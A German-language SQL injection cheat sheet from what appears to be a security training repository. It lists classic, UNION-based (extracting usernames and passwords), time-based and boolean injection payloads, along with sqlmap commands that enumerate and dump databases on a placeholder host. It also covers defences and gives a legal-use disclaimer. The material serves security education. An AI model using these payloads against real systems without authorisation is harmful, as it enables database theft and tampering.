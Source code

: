 # SQL Injection Cheat Sheet



## Inhaltsverzeichnis
- [Was ist eine SQL-Injection?](#was-ist-eine-sql-injection)
- [Grundlegende Arten von SQL-Injections](#grundlegende-arten-von-sql-injections)
- [Beispiele für SQL-Injection Payloads](#beispiele-für-sql-injection-payloads)
- [Wichtige SQL-Befehle zur Ausnutzung](#wichtige-sql-befehle-zur-ausnutzung)
- [Schutz vor SQL-Injection](#schutz-vor-sql-injection)
- [Nützliche Tools zur SQLi-Analyse](#nützliche-tools-zur-sqli-analyse)
- [Beispiel: SQL-Injection mit sqlmap](#beispiel-sql-injection-mit-sqlmap)
- [Fazit](#fazit)
- [Haftungsausschluss](#haftungsausschluss)




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Was ist eine SQL-Injection?

**SQL-Injection** (SQLi) ist eine Schwachstelle in Webanwendungen, bei der Angreifer schädlichen SQL-Code einschleusen, um mit der Datenbank zu interagieren. Ziel ist es, Daten zu lesen, ändern oder löschen, ohne Berechtigung zu haben.




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Grundlegende Arten von SQL-Injections

| Typ                   | Beschreibung                                                    |
| --------------------- | --------------------------------------------------------------- |
| Klassische SQLi       | Direkte Einspeisung in SQL-Abfrage                              |
| Blind SQLi            | Keine Fehlermeldung oder Ausgabe, aber Verhalten verändert sich |
| Time-Based Blind SQLi | Antwortzeit zeigt an, ob Abfrage erfolgreich war                |
| Union-Based SQLi      | Verwendung von UNION zur Datenabfrage                           |
| Error-Based SQLi      | Nutzt Fehlermeldungen zur Informationsgewinnung                 |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Beispiele für SQL-Injection Payloads

### 1. Klassische Injection

```sql
' OR '1'='1
admin' --
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 2. Union-Based

```sql
' UNION SELECT null, username, password FROM users --
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 3. Time-Based (MySQL)

```sql
' OR IF(1=1, SLEEP(5), 0) --
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 4. Blind SQLi (Boolean)

```sql
' AND 1=1 -- (wird akzeptiert)
' AND 1=2 -- (wird abgelehnt)
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Wichtige SQL-Befehle zur Ausnutzung

| Befehl               | Zweck                                   |
| -------------------- | --------------------------------------- |
| `SELECT`             | Daten abfragen                          |
| `UNION`              | Daten aus mehreren Abfragen kombinieren |
| `INSERT`, `UPDATE`   | Daten manipulieren                      |
| `DELETE`             | Daten löschen                           |
| `INFORMATION_SCHEMA` | Metadaten zur Datenbank anzeigen        |

Beispiel:

```sql
SELECT table_name FROM information_schema.tables WHERE table_schema=database();
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Schutz vor SQL-Injection

* ✅ Prepared Statements / Parameterized Queries verwenden (z. B. `PDO`, `mysqli` in PHP)
* ✅ Eingaben validieren und escapen
* ✅ Least Privilege Prinzip in der Datenbank anwenden
* ✅ Fehlerausgaben vermeiden oder loggen
* ✅ WAF (Web Application Firewall) einsetzen



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Nützliche Tools zur SQLi-Analyse

| Tool         | Funktion                                       |
| ------------ | ---------------------------------------------- |
| `sqlmap`     | Automatisierte SQLi-Tests und Exploits         |
| `Burp Suite` | Manuelles Testen und Modifizieren von Requests |
| `ZAP`        | Open Source Scanner für Webanwendungen         |
| `DVWA`       | Testumgebung für Web Security                  |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Beispiel: SQL-Injection mit sqlmap

```bash
sqlmap -u "http://target.com/vuln.php?id=1" --batch --dbs
```

Weitere Beispiele:

```bash
sqlmap -u "http://target.com/login.php" --data="user=admin&pass=admin" --dump
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Fazit

SQL-Injections sind eine der ältesten, aber immer noch häufigsten Sicherheitslücken im Web. Mit ausreichendem Wissen und den richtigen Tools lassen sich diese erkennen, ausnutzen und vor allem vermeiden.

**Ziel:** Erkennen, verstehen und absichern.



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---